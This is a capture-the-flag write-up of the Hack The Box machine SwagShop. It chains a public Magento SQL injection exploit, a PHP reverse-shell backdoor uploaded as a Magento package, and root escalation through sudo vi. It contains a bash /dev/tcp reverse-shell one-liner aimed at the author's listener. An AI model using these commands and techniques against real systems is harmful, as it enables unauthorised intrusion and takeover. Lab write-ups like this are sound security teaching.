# Hack The Box: SwagShop machine write-up

This machine, that runs with ip ``10.10.10.140``, was a really good and entertaining way of learning about Magento CMS and how different exploits can be chained together in order to achieve RCE. The first one is based on a SQL injection which lets us add a user to the Magento db, which then grants us access to the admin panel. From there, we can upload a backdoor that can be escalated to root thanks to a misconfiguration on the server that lets us run ``sudo`` with ``vi`` as user ``www-data``.

The only downside of it was that most people were making it crash all the time, which made it really hard for me to be able to experiment without constant resets... Overall I'd say this was one of the most unstable boxes I've done.

Let's begin!

### Enumeration

As always, we start by enumerating open ports to discover the services running in the machine. I fire up nmap:

*Result of nmap scan*

```sh
# Nmap 7.70 scan initiated Tue Jun 11 10:41:39 2019 as: nmap -sV -sC -oA nmap/initial 10.10.10.140
Nmap scan report for 10.10.10.140
Host is up (0.025s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Error 503: Service Unavailable
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun 11 10:41:53 2019 -- 1 IP address (1 host up) scanned in 14.33 seconds
```

We don't have much, just SSH and a web server, so we'll start by checking out port 80.

#### Web server enumeration

At first we are greeted with what looks like a store. Upon this, I immediately run dirb on the background so that it runs while I tinker around with the website.

*Website found on port 80*



I didn't found much manually, so I came back to check the dirb results and bingo! It found something:

```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Jun 12 17:18:17 2019
URL_BASE: http://10.10.10.140/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.140/ ----
==> DIRECTORY: http://10.10.10.140/app/                                         
==> DIRECTORY: http://10.10.10.140/downloader/                                  
==> DIRECTORY: http://10.10.10.140/errors/                                      
+ http://10.10.10.140/favicon.ico (CODE:200|SIZE:1150)                          
==> DIRECTORY: http://10.10.10.140/includes/                                    
+ http://10.10.10.140/index.php (CODE:200|SIZE:16097)                           
==> DIRECTORY: http://10.10.10.140/js/                                          
==> DIRECTORY: http://10.10.10.140/lib/                                         
==> DIRECTORY: http://10.10.10.140/media/                                       
==> DIRECTORY: http://10.10.10.140/pkginfo/                                     
+ http://10.10.10.140/server-status (CODE:403|SIZE:300)                         
==> DIRECTORY: http://10.10.10.140/shell/                                       
==> DIRECTORY: http://10.10.10.140/skin/                                        
==> DIRECTORY: http://10.10.10.140/var/
```

Accessing ``/downloader`` we can observe that the website is using Magento, a CMS that was subject to some attacks in the past.

*Control panel for Magento (``/downloader``)*



#### Gaining user with Magento

We don't have any credentials to log in to the control panel, so I went straight into searchsploit to see if there were any exploits available.

*Results from searchsploit search*



I started to try all of them until one finally worked: Magento eCommerce - Remote Code Execution. I copied the python script to my working directory with: ``searchsploit -m exploits/xml/webapps/37977.py```. And had a look at it. It looked like a SQL injection, so I ran it after modifying the following lines:

```py
target = "http://10.10.10.140/index.php"
```

Then I modified the credentials I wanted to have to be ``root2u:root2u`` and ran it:

*Output of exploit script*



The I just log in to the panel with those creds and have the possibility to upload some kind of package:

*``/downloader`` control panel*



I googled around and found this [website](https://dustri.org/b/writing-a-simple-extensionbackdoor-for-magento.html) where it's explained how it's possible to create a package with a simple php file. I followed it and used this [shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) from pentestmonkey. However, it didn't work and the php file was recognised as a directory when I tried to access it.

*Uploading module as a ``.tar.gz`` file doesn't work*



Eventually I bumped into an article on the internet where they were using another extension: ``.tgz``. I tried and it worked!

Running a ``curl`` on ``http://10.10.10.140/errors2/backdoor.php`` grants me a shell and we can read the user flag:

*Shell gained from php backdoor*





### Getting to root

Once on this shell I noticed that I needed an actual proper shell and sho I opened up another listener with netcat and ran: ``bash -c 'bash -i >& /dev/tcp/10.10.12.11/8080 0>&1'``.

After that, I ran ``sudo -l`` to see if I could run any commands as root and it turned out that I did:

*Improving the shell*



I can run the file editor ``vi`` as root under the directory ``/var/www/html/*`` so I created a new file and used a command propmt command to read the root flag (commands can be executed from within vi):

*Getting the root hash*





And that's it! I could've also ran ``:!/bin/bash`` to get a root shell and read the flag from there, but I just did this as it was more straightforward.

I hope you learned something with this cool box and enjoyed the write-up!

---

*Diego Bernal Adelantado*
